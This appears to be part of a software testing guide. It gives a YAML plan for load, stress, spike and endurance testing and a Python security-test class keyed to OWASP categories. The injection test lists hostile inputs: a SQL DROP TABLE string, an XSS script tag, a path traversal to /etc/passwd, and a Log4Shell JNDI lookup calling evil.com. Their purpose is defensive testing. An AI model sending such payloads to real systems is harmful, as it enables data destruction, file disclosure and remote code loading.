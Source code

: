 ### 2. Non-Functional Testing

#### Performance Testing
```yaml
performance_test_types:
  load_testing:
    description: "Normal expected load"
    users: 1000
    duration: 1 hour
    metrics:
      - response_time_avg < 200ms
      - response_time_95th < 500ms
      - error_rate < 0.1%
      
  stress_testing:
    description: "Beyond normal capacity"
    users: 5000
    duration: 30 minutes
    objectives:
      - Find breaking point
      - Monitor recovery
      
  spike_testing:
    description: "Sudden load increase"
    pattern: "100 users -> 2000 users in 1 minute"
    objectives:
      - System stability
      - Auto-scaling response
      
  endurance_testing:
    description: "Extended period testing"
    users: 500
    duration: 24 hours
    objectives:
      - Memory leaks
      - Resource exhaustion
```

#### Security Testing
```python
class SecurityTestMethodology:
    
    def test_authentication(self):
        """OWASP A07:2021 - Identification and Authentication Failures"""
        tests = [
            self.test_password_complexity(),
            self.test_account_lockout(),
            self.test_session_management(),
            self.test_multi_factor_auth(),
            self.test_password_recovery()
        ]
        
    def test_injection(self):
        """OWASP A03:2021 - Injection"""
        injection_vectors = [
            "'; DROP TABLE users; --",
            "<script>alert('XSS')</script>",
            "../../etc/passwd",
            "${jndi:ldap://evil.com/a}"
        ]
        
        for vector in injection_vectors:
            response = self.submit_form({"input": vector})
            assert not self.is_vulnerable(response)
```